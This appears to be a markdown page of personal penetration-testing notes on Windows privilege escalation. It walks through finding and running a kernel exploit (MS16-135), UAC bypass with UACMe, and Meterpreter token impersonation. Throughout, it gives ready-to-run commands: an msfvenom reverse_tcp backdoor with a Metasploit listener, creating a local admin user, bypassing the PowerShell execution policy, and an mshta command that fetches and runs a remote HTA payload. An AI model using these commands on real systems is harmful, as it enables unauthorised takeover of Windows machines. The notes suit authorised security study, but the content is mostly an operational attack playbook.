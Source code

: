 ```yaml
---
title: 'Windows'
description: ''
pubDate: 'Jul 03 2022'
slug: 'escalation/windows'
---
```


# kernel exploit

Metasploit module to identify kernel exploits
**_multi/recon/local_exploit_suggester_**

```bash
# windows-exploit suggester github

# With an active session, to get win7.txt systeminfo from target.
./windows-exploit-suggester.py --database 2021-12-26-mssb.xls --systeminfo ~/Desktop/win7.txt
...
windows version identifiedas 'windows ....'
MS16-135:
...

# Upload our payload windows-kernel-exploit/MS16-135/41015.exe into tmp directory

# -EXEC-
./41015.exe
```

# Bypassing UAC (User Account Control) with UACMe

- It abuses the built-in Windows AutoElevate executables.

- It has 65+ methods that can be used by the user to bypass UAC depending on the Windows OS version.

- https://github.com/hfiref0x/UACME

- If the configuration setting is set highly its hard to by pass.

- User must be a local administrator group.

```bash
# Generate our payload
msfvenom -p windows/meterpreter/reverse_tcp LHOST=target LPORT=1234 -f exe > door.exe

# msfconsole, listening...
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST target
set LPOT 1234
run

#In other session upload evil-payload if meterpreter session
upload /root/akagi64.exe

# specifiet where is our payload
./akagi64.exe 23 C:\Temp\door.exe
```

```bash
# msfconsole, example of a denied service.
sysinfo
pgrep explorer
migrate $id
sysinfo
getuid
getprivs
shell
net user
net localgroup administrators
net user admin passwrod123
```

# Windows Access Tokens

- A core element of the authentication process on windows and are created and managed by the Local Security Authority Subsystem Service (LSASS).

## Information

Are generated by the winlogon.exe process every time a user auth successfully and includes the identify and privileges of the user acc associated with the thread or process. This token is then attached to the userinit.exe process, after which all child processes started by a user will inherit a copy of the access token from their creator and will run under the privileges of the same access token.

- **Impersonate-level token:** Created as direct result of a non-interactive login on windows, typically through specific system services or domain logons, This tokens can be used to impersonate a token on the local system and not on any external systems that utilize the token.

- **Delegate-level Token:** Created through an interactive login on windows, primarily through a traditional login or through remote access protocols such as RDP. Pose the largest threat as they can be used to impersonate tokens on any system.

```bash
required privileges
# SeAssignPrimaryToken:
# SeCreateToken:
# SelmpersonatePrivilege:
```

## Exploit

```bash
# meterpreter
systeminfo
pgrep explorer
migrate pgred_explorer_id
getprivs

# Start attack - incognito
load incognito

# if there is no token use potato attack
list_tokens -u

#copy delegation tokens available
impersonate_token "token\Administrator"
getuid
getprivs
pgrep explorer
migrate id
getprivs

getuid # The administrator acc

```

## PowerShell command to bypass the default execution policy when running PowerShell scripts | PrivescCheck

```bash
# powershell -ep bypass .\script.ps1

# runas.exe /user:administrator cmd

### Kali
use exploit/windows/misc/hta_server
exploit

# Copy the local link and execute on cmd  with mshta.exe
mshta.exe http://link_generated_by_metasploit/hash

```
